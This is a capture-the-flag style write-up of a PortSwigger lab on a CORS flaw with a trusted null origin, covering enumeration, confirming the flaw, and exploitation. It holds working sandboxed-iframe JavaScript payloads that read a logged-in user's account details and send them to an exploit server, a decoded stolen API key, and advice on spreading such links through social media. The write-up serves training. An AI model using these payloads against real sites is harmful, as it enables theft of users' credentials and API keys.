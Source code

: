 ```yaml
--- 
title: "CORS Vulnerability With Trusted Null Origin"
author: ""
date: 2024-02-27T14:02:05+01:00
description: ""
draft: false
disableComments: false
categories: []
series: [] #Taxonomy to list "See Also" Section in Opengraph Templates
tags: []
slug: ""
summary: ""
---
```

#### Entities
Asset: https://0a670032044b5555803fcb6d009700d4.web-security-academy.net

#### Enumeration
Access the lab, add the domain - without the protocol scheme - to Burp's Target scope and check `Include subdomains`. Then create a New Scan of Crawl and Audit - Balanced on `/` route and add given credentials `wiener:peter` for exploring the application authenticated. View `/` route source page and inspect the page and all embedded links via a script.
```shell
# inspect `/` route and embedded links via Burp's Proxy
URL="https://0a670032044b5555803fcb6d009700d4.web-security-academy.net"
for path in $(curl -s $URL | grep -o 'href="[^"]*"' | cut -d'"' -f2); do
  echo "$(curl -skL -x 127.0.0.1:8080 -w "%{http_code} %{url_effective} -> %{redirect_url}" -o /dev/null $URL$path)"
done
```
View result on Burp Proxy's HTTP history, and with FoxyProxy Browser Extension configured for Burp turned on - not the Burp Proxy intercept - browse through the URLs that sticks out, hitting all possible resource you can find. The `/my-account` route which redirects to the `/login` when requested with valid credentials makes a POST request with an `Origin` header; `csrf`, `username` and `password` parameters and a GET request for `/accountDetails` after the login which shows sensitive credentials in the response with the `Access-Control-Allow-Credentials: true` set.

![Enumeration](/images/cors2/01-enumerate-index-route.png)  

#### Exploration
Armed with this insight, send the GET `/accountDetails` to Burp Repeater. Verify a CORS flaw at `/accountDetails` by removing the `Referer` header and adding an `Origin` header switching the value to an arbitrary domain, then null and observe the response reflected the `Access-Control-Allow-Origin` null value. 

![Exploration](/images/cors2/02-explore-null-as-origin.png) 

Now exploit yourself while logged in with the below script.

#### Exploitation
Now exploit yourself while logged in with the below script using the iframe sandbox attribute to simulate null origin.
```shell
<html lang="en">
<body>
  <iframe sandbox="allow-scripts" srcdoc="
    <script>
      async function exploitCORS() {
        const appURL = 'https://0a670032044b5555803fcb6d009700d4.web-security-academy.net/accountDetails';
        const exploitServer = 'http://localhost:8000';
        const response = await fetch(appURL, { credentials: 'include' });
        const data = await response.json();
        fetch(exploitServer + `/?log=${JSON.stringify(data)}`);
      }
      exploitCORS();
    </script>
  "></iframe>
</body>
</html>
```
Start a local server with `python3 -m http.server -b 127.0.0.1 8000 -d .` from within the directory where the above script is saved as index.html. Then run `google-chrome http://127.0.0.1:8000` and see your own credential displayed.

The condition for exploiting this flaw is that the target victim must be logged into their account, such that when they click the payload delivered to them, it gets the content of `/accountDetails` and logs that request to attacker's server. It is important to note that the PortSwigger lab simulates delivering the payload to the target victim and the response received at `/log` path of the exploit server. However in engagement the payload is usually set as a link in seemingly harmless articles or social media post.  
```shell
<html lang="en">
<body>
  <iframe style="display: none;" sandbox="allow-scripts" srcdoc="
  <script>
    var appServer = 'https://0a670032044b5555803fcb6d009700d4.web-security-academy.net'
    var exploitServer = 'https://exploit-0ace0046041055ef8007caf8011c0096.exploit-server.net'
    var xhr = new XMLHttpRequest();
    xhr.open('GET', appServer + '/accountDetails', true);
    xhr.withCredentials = true;
    xhr.onreadystatechange = function() {
      if (xhr.readyState == XMLHttpRequest.DONE && xhr.status == 200) {
        fetch(exploitServer + '/log=' + xhr.responseText)
      }
    };
    xhr.send();
  </script>
  "></iframe>
</body>
</html>
```
Paste the above on the exploit server and deliver exploit to victim.  

![Exploitation](/images/cors2/03-exploit-null-as-origin.png) 

#### Exfiltration
Access the exploit server log and copy the value of `/log=` path. Now run it through a url decoder to extract the apikey.  

![Exfiltration](/images/cors2/04-exfiltrate-null-as-origin-spoil.png) 
```shell
urlencode -d '%7B%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22SeXyl9sj6fIzmk04GGkz7MBPDlfmgDtv%22,%20%20%22sessions%22:%20[%20%20%20%20%22Q8Vn273xIb5fPY7NWmQHW1a1o7SXuJaz%22%20%20]%7D' | jq . | tee cors-vulnerability-with-trusted-null-origin-spoil.json
```
![Solution](/images/cors2/05-lab-solution.png)   

#### Resources
- https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack
- https://github.com/knoxknot/portswigger/tree/main/cors/02-cors-vulnerability-with-trusted-null-origin